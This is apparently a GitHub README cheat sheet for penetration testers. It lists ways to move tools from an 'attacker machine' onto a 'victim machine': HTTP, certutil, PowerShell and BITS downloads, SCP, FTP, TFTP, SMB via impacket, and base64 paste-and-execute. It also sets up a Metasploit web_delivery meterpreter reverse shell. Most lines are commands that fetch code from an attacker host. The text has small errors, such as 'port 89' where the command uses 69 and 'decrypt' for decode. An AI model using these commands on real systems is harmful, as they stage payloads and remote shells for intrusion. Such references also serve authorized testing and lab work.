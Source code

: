# tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from one machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

- `port=8888; python3 -m http.server      $port`
- `port=8888; python  -m SimpleHTTPServer $port`

From the victim machine you can use any browser to navigate to the IP address and download the files or the following commands:

### CMD

- `wget http://$attacker_address/$filename`
- `certutil -urlcache -split -f "http://$attacker_ip:$port/$filename" $output-filename`


### Powershell

- `powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP:$port/$filename','$output-filename')"`
- `curl http://$attacker_address/$filename -O $output-filename`
- `Invoke-WebRequest http://$attacker_address/$filename -O $output-filename`

- `powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip/$filename -Destination C:\temp\$filename")`

### SSH

If you have an SSH session you can use SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

- `scp username@from_host:file.txt /local/directory/`

Uploading files to the host:

- `scp file.txt username@to_host:/remote/directory/`

### FTP

Set up an FTP server on your attacker machine:

note: (you might install `pyftpdlib` with `apt-get install python-pyftpdlib` first)
`python -m pyftpdlib 21`

ftp to the attacker machine and use the GET command to download files.

- `ftp $attacker_ip_ address`

To upload files use the `-w` switch to enable anonymous write.

### TFTP

Set a tftp server on your attacker machine using the following command:

- `atftpd --daemon --port 69 root-dir`

where atftpd is the tftp server we want to execute, we execute are gonna execute it as a service (daemon) on port 89 and root-directory will be the directory where the files are which we want to transfer.

To download the hosted files use:

- `tftp -i $attacker_ip GET file`

To upload files use the same command with the PUT argument.

### SMB

You can host files via SMB, use the smbserver.py script which is part of the impacket project with the following command

`smbserver.py $share_name $shared_directory`

- `smbserver.py share /usr/share/transfer`

If you want to share the current directory use the pwd command.

- `smbserver.py $share_name pwd`

To download the files use the following command:

`copy \\$attacker_ip\$share_name\$file_name $out_filename`

e.g: `copy \\192.168.0.122\share\nc.exe nc.exe`

### Metasploit

You can use the web_delivery method to transfer reverse shells. Type the following commands inside metasploit.

```
use multi/script/web delivery
set payload to windows/meterpreter/reverse_tcp
set target PSH (powershell)
set lhost eth0
```

localhost and srvhost are the same

if you are connected to the target network via VPN use the tun0 interface instead of eth0. srvhost is the ip address serving the malicious script, lhost is where the call-back will happen from the reverse-shell. In this example I used a Meterpreter shell but you choose whatever shell type you like.


## Encodings

### Base64

Another cool trick is to encode your script, using base64, then copy-paste it between sessions.

```
python -c 'print(__import__("base64").b64encode(open("file_name", "rb").read()))'
echo "base64_encoded_script" > output.txt
base64 -d output.txt > out_filename
chmod +x out_filename
./out_filename
```

you can also use bash:
- `base64 plaintext_file`
- `cat base64_encoded_file | base64 -d`


So we encoded the binary, copy-pasted the base64 string into a text file using echo, \
then decrypted it with the base64 utility using the -d switch (decrypt) to a single file. \
We made it executable with the chmod +x command than executed it.

It works well on smaller scripts, copy pasting the string of a complex program could crash a shell.




